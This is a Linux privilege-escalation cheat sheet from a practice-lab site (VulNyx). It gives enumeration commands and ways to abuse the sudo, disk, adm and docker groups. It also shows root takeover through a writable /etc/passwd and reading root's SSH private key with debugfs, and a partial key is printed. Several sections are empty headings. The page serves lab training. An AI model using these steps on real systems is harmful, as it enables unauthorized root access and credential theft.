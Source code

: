 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Enumeration

```bash
# sudo
sudo -l
# If when performing the previous step it tells you that sudo is not found
find / -name sudo 2>/dev/null

# suid
find / -perm -4000 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
find / -perm -4000 -exec ls -l {} \; 2>/dev/null

# capabilities
/usr/sbin/getcap -r / 2>/dev/null

# users
grep "sh$" /etc/passwd

# writable
find / -writable 2>/dev/null
find / -writable 2>/dev/null | grep -viE "proc|sys|dev"
find / -writable -user low 2>/dev/null
```

If I identify a **binary** with **`suid`** or **`sudo`** **permissions** [**GTFOBins**](https://gtfobins.github.io) is the way.

---

### Cron (Task)

View **`cron`** jobs defined in **global file**:

```bash
cat /etc/crontab
```

If tasks have been defined in the individual file that each user has with **`crontab -e`**, it is necessary to monitor with specific tools.

#### pspy

Use [**pspy**](https://github.com/DominicBreuker/pspy) tool to **monitor tasks**.

```bash
low@vulnyx:~$ cd /dev/shm
low@vulnyx:/dev/shm$ wget -q --no-check-certificate "https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64"
low@vulnyx:/dev/shm$ chmod +x pspy64
low@vulnyx:/dev/shm$ ./pspy64
```

#### Bash

You can also use **`bash`** and do it manually.

```bash
#!/bin/bash

old=$(ps -eo command)
filter="kworker|command|defunct"

function ctrl_c(){
  exit 1
}

trap ctrl_c int

while true; do
  new=$(ps -eo command)
  diff <(echo "$old") <(echo "$new") | grep "[\>\<]" | grep -vE "$filter"
  old=$new
done
```

---

### Groups

#### sudo

When a user is part of the **`sudo`** **group**, he can run any command as the **`root`** user.

```bash
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)

# Abuse Group
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of a **`disk`** **group**, he or she is granted direct access to the system **disks** and **partitions**.

```bash
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)

# Abuse Group
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm

low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
```

#### adm

When a user is part of the **`adm`** **group**, he can **read log files** on the system.

```bash
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),4(adm)

# Abuse Group
low@vulnyx:~$ grep --color -Eri "pass|password|secret|db" /var/log 2>/dev/null
```

#### docker

When a user is part of the **`docker`** **group**, they have the ability to **manage containers**.

```bash
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)

# Abuse Group
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### Doas

---

### pkexec <=0.105-31 (CVE-2021-4034)

---

### sudo <=1.8.27 (CVE-2019-14287)

---

### chkrootkit

---

### DirtyCOW

---

### Path Hijacking (Path Variable)

#### Binary

#### Cron

---

### Python Library Hijacking

---

### Wilcard

---

### /etc/passwd (Writable)

If a low-privileged user has **write permissions** to the **`/etc/passwd`** file, an attacker can remove the **`x`** (on the **root** user line) and add a **hash**, this will cause the file that validates credentials to change from **`/etc/shadow`** to **`/etc/passwd`**.

```bash
# Check Permissions
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd

# Create Hash
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0

# Add Hash
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash
# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash

# Authenticate
low@vulnyx:~$ su -
Password:
root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
